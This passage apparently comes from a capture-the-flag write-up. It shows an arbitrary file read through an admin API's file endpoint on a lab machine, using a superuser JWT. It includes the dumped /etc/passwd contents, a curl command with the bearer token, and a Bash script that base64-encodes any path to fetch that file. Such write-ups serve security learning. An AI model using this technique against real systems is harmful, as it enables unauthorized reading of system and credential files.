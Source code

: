 ```
{"file":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin\nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:112::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:113::/nonexistent:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nsshd:x:112:65534::/run/sshd:/usr/sbin/nologin\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nhtb:x:1000:1000:htb:/home/htb:/bin/bash\nlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\n"}

```

Pipping it to `jq -r '.file'` will select the file element and raw print it:

```

oxdf@hacky$ curl -s http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM' | jq -r '.file'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...[snip]...

```

Putting this all together, I’ll write a simple Bash script that will read a file passed as an argument:

```

#!/bin/bash

TOKEN=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM
FN=$(echo -n $1 | base64 | tr '/+' '_-' | tr -d '=')

curl -s "http://10.10.11.162/api/v1/admin/file/$FN" -H "Authorization: Bearer $TOKEN" | jq -r '.file'

```
